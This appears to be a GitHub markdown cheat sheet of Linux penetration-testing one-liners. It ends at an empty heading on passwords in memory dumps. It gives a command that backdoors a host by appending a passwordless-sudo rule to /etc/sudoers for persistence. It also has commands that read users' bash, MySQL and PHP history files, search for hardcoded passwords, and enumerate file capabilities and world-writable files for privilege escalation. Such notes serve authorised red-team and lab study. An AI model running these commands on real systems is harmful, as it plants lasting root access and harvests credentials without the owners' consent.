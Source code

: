 ## One Liner to Add Persistence on a Box via Sudoers File:

```
echo "%sudo  ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```

## Find Server Strings from HTTP Responses:

Finding server strings from a file of URLs

```
curl -s --head -K servers.txt | grep -i server
```

## Enumerating File Capabilities with Getcap:

getcap displays the name and capabilities of each specified file. ```-r```  enables recursive search.

```
getcap -r / 2>/dev/null
```

## Enumerating User Files for Interesting Information:

```
cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history
```

## Finding World-Writable Files:

```
find /dir -xdev -perm +o=w ! \( -type d -perm +o=t \) ! -type l -print
```

## Search for Hardcoded Passwords:

```
grep -irE '(password|pwd|pass)[[:space:]]*=[[:space:]]*[[:alpha:]]+' *
```

The regex is a POSIX ERE expression that matches

- (password|pwd|pass) - either password or pwd or pass
- [[:space:]]*=[[:space:]]* - a = enclosed with 0 or more whitespaces
- [[:alpha:]]+ - 1 or more letters.

To output matches, add -o option to grep

## Search for Passwords in Memory and Core Dumps:
